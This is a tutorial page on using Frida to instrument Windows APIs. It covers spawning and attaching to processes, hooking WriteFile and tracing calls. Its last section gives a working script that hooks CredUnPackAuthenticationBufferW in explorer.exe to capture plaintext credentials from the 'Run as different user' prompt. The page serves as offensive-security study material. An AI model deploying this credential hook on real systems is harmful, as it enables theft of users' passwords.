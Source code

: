 # Instrumenting Windows APIs with Frida

[Frida](https://frida.re) is dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers.

## Spawning New Process with Frida

We can ask frida to spawn a new process for us to instrument:

```text
frida c:\windows\system32\notepad.exe
```

![](../../.gitbook/assets/image%20%28578%29.png)

## Attaching Frida to Existing Process

We can ask frida to attach to an existing process:

```text
frida -p 10964
```

![](../../.gitbook/assets/image%20%28698%29.png)

## Hooking a Function

The below code in `hooking.js` will find address of the Windows API `WriteFile` \(lives in kernel32.dll/kernelbase.dll\) and hexdump the contents of the 1st argument passed to it:

{% code title="hooking.js" %}
```javascript
var writeFile = Module.getExportByName(null, "WriteFile");

Interceptor.attach(writeFile, {
    onEnter: function(args)
    {
        console.log("Buffer dump:\n" + hexdump(args[1]));
        // console.log("\nBuffer via Cstring:\n" + Memory.readCString(args[1]));
        // console.log("\nBuffer via utf8String:\n" + Memory.readUtf8String(args[1]));
    }
});
```
{% endcode %}

Let's spawn a new `notepad.exe` through Frida and supply it with the above `hooking.js` code, so that we can start instrumenting the `WriteFile` API and inspect the contents of the buffer that is being written to disk:

```text
frida C:\windows\system32\notepad.exe -l .\hooking.js
```

![](../../.gitbook/assets/frida-instrumenting-api.gif)

Notice that we can update the `hooking.js` code and the instrumentation happens instantly - it does not require us to re-spawn the notepad or re-attaching Frida to it. In the above GIF, this can be seen at the end when we request the console to spit out the `process.id` \(the frida is attached to\) and the notepad process ID gets printed out to the screen instantly.

## Frida-Trace

If we want to see if certain API calls are invoked by some specific process, say `WriteFile`, we can use `frida-trace` tool like so:

```text
frida-trace -i "WriteFile" C:\windows\system32\notepad.exe
```

![](../../.gitbook/assets/frida-trace.gif)

## Real Life Example - Intercepting Credentials

Below shows how we can combine the above knowledge for something a bit more interesting.

Can we intercept the plaintext credentials from the credentials prompt the user gets when they want to execute a program as another user?

![Credentials prompt presented for &quot;Run as different user&quot;](../../.gitbook/assets/credential-popup.gif)

The answer is of course yes, so let's see how this could be done using Frida tools.

Let's use `frida-trace` to see if explorer.exe ever calls any functions named `*Cred*` when we invoke the credentials popup:

```text
frida-trace -i "*Cred*" -p (ps explorer).id
```

Below, we can see that indeed, there is a call to `CredUIPromptForWindowsCredentialsW` made when the prompt is first invoked:

![](../../.gitbook/assets/credential-popup-trace.gif)

Entering some fake credentials shows the following interesting `Cred*` API calls are made \(in red\):

![](../../.gitbook/assets/image%20%28663%29.png)

...and the [`CredUnPackAuthenticationBufferW`](https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-credunpackauthenticationbufferw) \(in lime\) is of special interest, because per MSDN:

> The **CredUnPackAuthenticationBuffer** function converts an authentication buffer returned by a call to the [CredUIPromptForWindowsCredentials](https://docs.microsoft.com/en-us/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa) function into a string user name and password.

We can now instrument `CredUnPackAuthenticationBufferW` in a frida javascript like so:

{% code title="Credentials.js" %}
```javascript
var username;
var password;
var CredUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW")

Interceptor.attach(CredUnPackAuthenticationBufferW, {
    onEnter: function (args) 
    {
        // Credentials here are still encrypted
        /*
            CREDUIAPI BOOL CredUnPackAuthenticationBufferW(
                0 DWORD  dwFlags,
                1 PVOID  pAuthBuffer,
                2 DWORD  cbAuthBuffer,
                3 LPWSTR pszUserName,
                4 DWORD  *pcchMaxUserName,
                5 LPWSTR pszDomainName,
                6 DWORD  *pcchMaxDomainName,
                7 LPWSTR pszPassword,
                8 DWORD  *pcchMaxPassword
            );        
        */
        username = args[3];
        password = args[7];
    },
    onLeave: function (result)
    {
        // Credentials are now decrypted
        var user = username.readUtf16String()
        var pass = password.readUtf16String()

        if (user && pass)
        {
            console.log("\n+ Intercepted Credentials\n" + user + ":" + pass)
        }
    }
});
```
{% endcode %}

We can now hook the explorer.exe by providing frida with our instrumentation script like so:

```text
frida -p (ps explorer).id -l C:\labs\frida\hello-world\credentials.js
```

![](../../.gitbook/assets/image%20%28670%29.png)

With `CredUnPackAuthenticationBufferW`  instrumented, entering credentials in the prompt launched by explorer.exe, gives us the expected result - the credentials are seen in plaintext:

![](../../.gitbook/assets/credential-popup-capture-credentials.gif)

## Resources

{% embed url="https://frida.re/docs/javascript-api/\#memory" %}

